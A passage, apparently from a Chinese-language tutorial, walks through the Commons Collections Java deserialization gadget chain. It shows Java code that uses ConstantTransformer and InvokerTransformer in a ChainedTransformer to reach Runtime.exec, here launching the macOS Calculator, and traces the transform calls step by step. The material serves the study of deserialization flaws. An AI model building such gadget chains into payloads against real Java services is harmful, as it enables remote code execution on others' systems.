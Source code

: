 #### Runtime

但是发现这样还是不能执行命令的，这里报错了，原因是Runtime是不能被反序列化的，我们最早传给ConstantTransformer的是 `Runtime.getRuntime()` ，而Runtime没有实现serializable接口，是不能被序列化的

![image-20220930021727592](https://tuchuang.huamang.xyz/img/image-20220930021727592.png)

那么我们的解决办法还是有的，我们可以通过反射来获取到当前上下文中的Runtime对象，而不需要直接使用这个类，因为我们的`ChainedTransformer`的存在，我们可以在数组中把Runtime的反射分开填装进去，就像这样

原poc

```java
Method f = Runtime.class.getMethod("getRuntime");
Runtime r = (Runtime) f.invoke(null);
r.exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
```

转换成这样，InvokerTransformer的第一个参数表示要执行的方法，第二个参数表示参数类型，第三个参数作为执行参数列表，需要去匹配第二个参数

```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0]}),
    new InvokerTransformer("exec", new Class[] { String.class },new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
};
```

以前的Runtime.getRuntime() 是`java.lang.Runtime`对象，无法序列化，现在变成了Runtime.class，是java.lang.Class 对象，Class类有实现Serializable接口，所以可以被序列化

这里我们跟一下，仔细的弄清楚这个操作：



**第一次循环**

`iTransformers[0] = ConstantTransformer(Runtime.class)`
object不重要不影响

![image-20220930141338876](https://tuchuang.huamang.xyz/img/image-20220930141338876.png)

**第二次循环**

前面的ConstantTransformer(Runtime.class)执行了transform，返回**class java.lang.Runtime**，作为object

```java
iTransformers[1] = InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] })
```

进入InvokerTransformer的transform，input是**class java.lang.Runtime**，method是`getMethod`，参数iArgs是`{"getRuntime",new Class[0]}`，

```
return method.invoke(input, this.iArgs);
返回：public static java.lang.Runtime java.lang.Runtime.getRuntime()
```

